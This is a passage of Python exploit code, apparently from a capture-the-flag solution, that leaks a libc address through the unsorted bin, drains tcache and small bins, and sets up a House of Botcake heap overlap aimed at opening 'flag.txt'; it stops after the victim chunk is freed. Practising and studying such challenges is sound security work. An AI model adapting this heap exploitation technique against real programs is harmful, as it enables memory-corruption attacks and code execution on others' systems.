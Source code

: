 ```python
# leak the libc address in unsorted bin
for i in range(9):
    content = b"bbbb"
    malloc_letter(i+2, 130, content)
    time.sleep(0.1)

for i in range(8):
    free_letter(i+2)
    time.sleep(0.1)

libc_leak = read_letter(9)
# print(hex(libc_leak))

libc_base = libc_leak - 2202848
print(f"libc base at: {hex(libc_base)}")

# malloc until you empty the bins 
# size - 0x10 for the metadata
print("cleaning tcache and smallbins...")
for i in range(7):
    malloc_letter(15, 0x10, b'a')
for i in range(7):
    malloc_letter(15, 0x60, b'a')
for i in range(7):
    malloc_letter(15, 0x70, b'a')
for i in range(7):
    malloc_letter(15, 0x80, b'a')
for i in range(5):
    malloc_letter(15, 0xc0, b'a')
for i in range(2):
    malloc_letter(15, 0xd0, b'a')
for i in range(2):
    malloc_letter(15, 0xe0, b'a')
for i in range(9):
    malloc_letter(15, 0x60, b'a')
for i in range(9):
    malloc_letter(15, 0x10, b'a')
for i in range(2):
    malloc_letter(15, 0x70, b'a')
for i in range(1):
    malloc_letter(15, 0x80, b'a')

### HOUSE OF BOTCAKE
# allocate 7 chunks to fill tcache later  
for i in range(7):
    malloc_letter(i+3, 256, b"a")

# for later consolidation (previous chunk)
malloc_letter(0, 256, b"aaaa")
# victum chunk 
malloc_letter(1, 256, b"bbbb")
# small barrier chunk (to prevent any further consodilation past our victim chunk)
# also, will use when we call OPEN with this chunk's addr as a pointer to "flag.txt"
malloc_letter(2, 16, b"flag.txt\00")

# now cause chunk overlapping
# fill up tcache list
for i in range(7):
    free_letter(i+3)

# free the victim chunk so it will be added to unsorted bin
free_letter(1)

```
